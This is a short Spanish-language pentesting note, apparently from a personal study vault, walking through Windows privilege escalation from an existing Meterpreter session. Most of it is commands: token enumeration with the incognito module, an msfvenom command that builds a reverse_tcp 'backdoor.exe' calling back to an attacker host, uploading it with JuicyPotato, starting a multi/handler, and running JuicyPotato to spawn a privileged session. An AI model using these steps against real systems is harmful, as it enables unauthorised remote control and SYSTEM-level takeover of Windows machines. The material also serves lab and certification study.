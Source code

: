 Descripción

A partir de una sesión de meterpreter vamos a ejecutar los siguientes comandos:

```bash
#conocer sistema
getuid
#ver los privilegios
getprivs
#cargar módulo incognito
load incognito
#ver los tokens disponibles
list_tokens -u
```

En el ejemplo vemos los siguientes

![[Pasted image 20250220090513.png]]

Ninguno de altos privilegios. Lo que vamos a hacer es crear un paylaod con msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe
```

Desde la sesión de meterpreter podemos subir el archivo malicioso que acabamos de generar.

```bash
upload backdoor.exe

#También vamos a subir el binario de Juicy Potato
upload /root/Desktop/tools/JuicyPotato.exe
#Ponemos la sesión en background
background
#Utilizamos el multi/handler
use multi/handler
exploit

#Volvemos a la sesion de meterpreter mientras se ejecuta el multi/handler
sessions 1

#ejecutar juicypotato
shell
JuicyPotato.exe -l 555 -p C:\users\Public\backdoor.exe -t * -c codigo
#Para obtener el código hay que utilizar una CLS que se obtiene según la versión de windows utilizada. para ver entrar en al url:https://github.com/ohpe/juicy-potato
```

Con esto deberíamos generar una sesión con usuario con privilegios.